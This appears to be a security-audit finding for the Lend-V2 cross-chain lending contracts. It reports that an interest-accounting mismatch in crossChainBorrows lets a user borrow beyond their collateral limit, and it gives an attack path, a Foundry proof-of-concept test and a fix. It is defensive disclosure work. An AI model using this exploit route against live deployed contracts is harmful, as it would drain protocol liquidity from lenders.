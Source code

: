 Energetic Chocolate Weasel

High

# Malicious user can borrow more than `maxBorrow` as `LendStorage::userCrossChainBorrows` is updated without accounting for the interest of the previous borrow

### Summary

`LendStorage::crossChainBorrows` is updated without accounting for the interest of the previous cross-chain borrow position, allowing malicious user to borrow more tokens than the initial `maxBorrow` allowed based on their initial collateral deposited.

### Vulnerability Details
When a user creates a cross-chain borrow (`CrossChainRouter::borrowCrossChain`), the debt is recorded in `LendStorage::crossChainBorrows` in the source chain and `LendStorage::crossChainCollaterals` in the destination chain. However, `LendStorage::crossChainBorrows` is updated without accounting for the accrued interest of the previous cross-chain borrow position, creating a record mismatch between `LendStorage::crossChainBorrows` and `LendStorage::crossChainCollaterals`. This results in `LendStorage::getMaxBorrowAmount` returning a higher than expected `maxBorrow` on the source chain. A malicious user can exploit this mismatch to borrow more tokens than the initial `maxBorrow` allowed based on their initial collateral deposited.

Simplified call trace for cross-chain borrow:
1. ChainA: `CrossChainRouter::borrowCrossChain`
2. ChainA: `CrossChainRouter::_send`
3. ChainB: `CrossChainRouter::_lzReceive`
4. ChainB: `CrossChainRouter::_handleBorrowCrossChainRequest`
5. ChainB: `LendStorage::updateCrossChainCollateral/addCrossChainCollateral`    
    ^ updates ChainB `LendStorage::crossChainCollaterals` accounting for the accrued interest of the previous cross-chain borrow
6. ChainB: `CrossChainRouter::_send`
7. ChainA: `CrossChainRouter::_lzReceive`
8. ChainA: `CrossChainRouter::_handleValidBorrowRequest`
9. ChainA: `LendStorage::updateCrossChainBorrow/addCrossChainBorrow`    
    ^ updates ChainA `LendStorage::crossChainBorrows` without accounting for the accrued interest of the previous cross-chain borrow

### Root Cause

In [`CrossChainRouter::_handleValidBorrowRequest`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CrossChainRouter.sol#L708-L716), `LendStorage::crossChainBorrows` is updated without accounting for the interest of the previous cross-chain borrow position.

[`CrossChainRouter::_handleValidBorrowRequest`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CrossChainRouter.sol#L708-L716)
```javascript
        if (found) {
            // Update existing borrow
            LendStorage.Borrow[] memory userBorrows = lendStorage.getCrossChainBorrows(payload.sender, payload.srcToken);
@>          userBorrows[index].principle = userBorrows[index].principle + payload.amount;
            userBorrows[index].borrowIndex = payload.borrowIndex;

            // Update in storage
            lendStorage.updateCrossChainBorrow(payload.sender, payload.srcToken, index, userBorrows[index]);
        } else {
```

### Internal Pre-conditions

1. Liquidity providers (LP) needs to call `CoreRouter::supply` to provide token liquidity for users to borrow

### External Pre-conditions

None

### Attack Path

1 . On chainA, malicious user calls `CoreRouter::supply` to supply collateral (`tokenA1`) to chainA. \
2 . On chainA, malicious user calls `CrossChainRouter::borrowCrossChain` to borrow tokens (`tokenB2`) in chainB (1st borrow). \
3 . Some time passes, malicious user's first borrow accrues interest. \
4a. On chainA, malicious user calls `CrossChainRouter::borrowCrossChain` to borrow tokens (`tokenB2`) in chainB (2nd borrow). \
4b. `LendStorage::userCrossChainBorrows` is updated without accounting for the interest of the previous borrow. \
4c. Malicious user's principle in chainA `userCrossChainBorrows.principle` is less than the principle in chainB `userCrossChainCollaterals.principle` (records mismatch). \
4d. This results in `LendStorage::getMaxBorrowAmount` returning a higher than expected `maxBorrow` on chainA. \
4e. Malicious user is now able to borrow more than they should on chainA. \
5a. On chainA, malicious user calls `CoreRouter::borrow` to borrow tokens (`tokenA2`) in chainA (3nd borrow). \
5b. Malicious user has borrowed more tokens in total than the maxBorrow allowed based on their collateral deposited. 

### Impact

1. Malicious user can borrow more than the initial `maxBorrow` allowed based on their initial collateral deposited
2. Protocol health is impacted and protocol insolvency risk increases

### PoC

Place the following into `test/TestBorrowingCrossChain.t.sol` and run
> forge test --mt testIncorrectCrossChainBorrowsUpdateAllowsUsersToBorrowMoreThanTheyShould

```javascript
    address LP = makeAddr("LP");
    address user = makeAddr("user");
    address tokenA1;
    address tokenA2;
    address lTokenA2;
    address tokenB2;
    function testIncorrectCrossChainBorrowsUpdateAllowsUsersToBorrowMoreThanTheyShould() public {
        uint256 amountToSupply = 10e18;
        uint256 amountToBorrow = 2e18;
        LendStorage.Borrow[] memory userCrossChainBorrows;
        LendStorage.Borrow[] memory userCrossChainCollaterals;
        tokenA1 = supportedTokensA[0];
        tokenA2 = supportedTokensA[1];
        lTokenA2 = lendStorageA.underlyingTolToken(tokenA2);
        tokenB2 = lendStorageA.underlyingToDestUnderlying(tokenA2, CHAIN_B_ID);

        // 0. Setup
        // Deal ether for LayerZero fees
        vm.deal(address(routerA), 1 ether);
        vm.deal(address(routerB), 1 ether);
        // LP supply some token liquidity for user to borrow
        uint256 liquidity = amountToBorrow * 10;
        vm.startPrank(LP);
        ERC20Mock(tokenA2).mint(LP, liquidity);
        IERC20(tokenA2).approve(address(coreRouterA), liquidity);
        coreRouterA.supply(liquidity, tokenA2);
        ERC20Mock(tokenB2).mint(LP, liquidity);
        IERC20(tokenB2).approve(address(coreRouterB), liquidity);
        coreRouterB.supply(liquidity, tokenB2);
        vm.stopPrank();

        // 1. User supplies collateral (tokenA1) to chainA
        ERC20Mock(tokenA1).mint(user, amountToSupply);
        vm.startPrank(user);
        IERC20(tokenA1).approve(address(coreRouterA), amountToSupply);
        coreRouterA.supply(amountToSupply, tokenA1);
        vm.stopPrank();
        uint256 initialMaxBorrow = lendStorageA.getMaxBorrowAmount(user, lTokenA2); // 7500000000000000000 (7.5e18)
        uint256 correctMaxBorrow = lendStorageA.getMaxBorrowAmount(user, lTokenA2); // 7500000000000000000 (7.5e18)

        // 2. User borrows tokens (tokenB2) in chainB (1st borrow)
        vm.prank(user);
        routerA.borrowCrossChain(amountToBorrow, tokenA2, CHAIN_B_ID);
        assertEq(IERC20(tokenB2).balanceOf(user), amountToBorrow);
        correctMaxBorrow -= amountToBorrow; // 5500000000000000000 (5.5e18)

        // 3. Some time passes, user's first borrow accrues interest
        uint256 borrowIndexBefore = LToken(lTokenA2).borrowIndex();
        vm.warp(block.timestamp + 1e7);
        vm.roll(block.number + 1e7);
        LToken(lTokenA2).accrueInterest();
        uint256 interestAccrued = (amountToBorrow * LToken(lTokenA2).borrowIndex()) / borrowIndexBefore - amountToBorrow;  
        // 951293759500000000 (~0.95e18)
        correctMaxBorrow -= interestAccrued; // 4548706240500000000 (~4.5e18)

        // 4. User borrows tokens (tokenB2) in chainB (2nd borrow)
        vm.prank(user);
        routerA.borrowCrossChain(amountToBorrow, tokenA2, CHAIN_B_ID);
        assertEq(IERC20(tokenB2).balanceOf(user), amountToBorrow * 2);
        correctMaxBorrow -= amountToBorrow;                                     // 2548706240500000000 (~2.5e18)
        userCrossChainBorrows = lendStorageA.getCrossChainBorrows(user, tokenA2);
        userCrossChainCollaterals = lendStorageB.getCrossChainCollaterals(user, tokenB2);
        // User's principle in chainA is less than user's principle in chainB (records mismatch)
        assertLt(userCrossChainBorrows[0].principle, userCrossChainCollaterals[0].principle);
        uint256 maxBorrowNow = lendStorageA.getMaxBorrowAmount(user, lTokenA2); // 3563443725395290686 (~3.6e18)
        // User is now able to borrow more than they should (on chainA)
        assertGt(maxBorrowNow, correctMaxBorrow);

        // 5. User borrows tokens (tokenA2) in chainA (3rd borrow)
        vm.prank(user);
        coreRouterA.borrow(maxBorrowNow, tokenA2);
        assertEq(IERC20(tokenA2).balanceOf(user), maxBorrowNow);
        uint256 userTotalBorrows = amountToBorrow * 2 + maxBorrowNow;   // 7563443725395290686 (~7.6e18)
        uint256 userTotalBorrowsWithInterest = userTotalBorrows + interestAccrued; // 8514737484895290686 (~8.5e18)
        // User has borrowed more than the initialMaxBorrow allowed based on their initial collateral deposited
        assertGt(userTotalBorrows, initialMaxBorrow);
        assertGt(userTotalBorrowsWithInterest, initialMaxBorrow);
    }
```

### Mitigation

In `CrossChainRouter::_handleValidBorrowRequest`, updates to `LendStorage::userCrossChainBorrows` should account for the accrued interest of the previous cross-chain borrow position.

`CrossChainRouter::_handleValidBorrowRequest`
```diff
        if (found) {
            // Update existing borrow
            LendStorage.Borrow[] memory userBorrows = lendStorage.getCrossChainBorrows(payload.sender, payload.srcToken);
-           userBorrows[index].principle = userBorrows[index].principle + payload.amount;
+           uint256 newPrincipleWithAmount = userBorrows[index].principle * payload.borrowIndex / userBorrows[index].borrowIndex;
+           userBorrows[index].principle = newPrincipleWithAmount + payload.amount;
            userBorrows[index].borrowIndex = payload.borrowIndex;

            // Update in storage
            lendStorage.updateCrossChainBorrow(payload.sender, payload.srcToken, index, userBorrows[index]);
        } else {
```